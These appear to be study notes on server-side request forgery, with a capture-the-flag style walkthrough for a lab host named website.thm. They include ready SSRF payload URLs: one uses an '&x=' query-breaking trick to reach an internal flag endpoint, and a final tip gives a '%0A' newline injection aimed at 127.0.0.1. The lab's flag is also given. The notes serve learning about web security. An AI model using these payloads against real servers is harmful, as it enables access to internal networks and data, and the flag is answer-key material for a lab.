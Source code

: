 [[Bug]]

## **What is an SSRF?**

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## **Types of SSRF**

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

## **What's the impact?**

A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.



(task 2 from AI)

### Task: Exploiting SSRF to get the flag

In the mock browser provided by the room, the application sends a request to the URL in the `server` parameter. The bottom bar shows exactly which request is being sent by `website.thm`.

Given:

```
https://website.thm/item/2?server=api
```

The application requests:

```
https://api.website.thm/api/item?id=2
```

---

### Goal

Force the web server to fetch:

```
https://server.website.thm/flag?id=9
```

so that it returns the flag.

---

### Problem

If you simply replace `server` with `https://server.website.thm/flag?id=9`, the resulting URL in the server request becomes malformed. It appends the rest of the path/query from the original request to your injected URL, creating something like:

```
https://server.website.thm/flag?id=9.website.thm/api/item?id=2
```

which causes a `404` error.

---

### Solution: Using `&x=` Trick

To stop the application from appending its default `/api/item?id=2`, you can terminate the query string by adding `&x=` to the end of your payload.

**Correct URL:**

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

Now, the request sent by `website.thm` is clean:

```
https://server.website.thm/flag?id=9
```

and you will receive the flag response:

```
THM{SSRF_MASTER}
```

---

### Final Answer

- Injected URL:
    

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

- Flag:
    

```
THM{SSRF_MASTER}
```

---

### Why This Works

- The application appends additional path/query to whatever you supply in `server`. Adding `&x=` breaks that process by finishing the query string, so the rest of the URL is ignored.
    
- Encoding tricks (like `%3F` and `%3D`) are often insufficient in this lab; the `&x=` method is the cleanest and most reliable path to isolate the request.
    

---

### Key Takeaways

- In real SSRF scenarios, query breaking via `&` is a classic technique.
    
- Always watch how the server _actually_ constructs the outbound request — especially with any debugging bar like the one given in this room.
    
- Control the full path/query string to direct requests precisely where you want.
    

---

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
================================================

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png)  

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

  

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.


## reports

iif there's parameter like `url=` or anything like it , you can try this `%0A` which mean /n 
for example `url=http://127.0.0.1/%0Ahttps://anything.com`
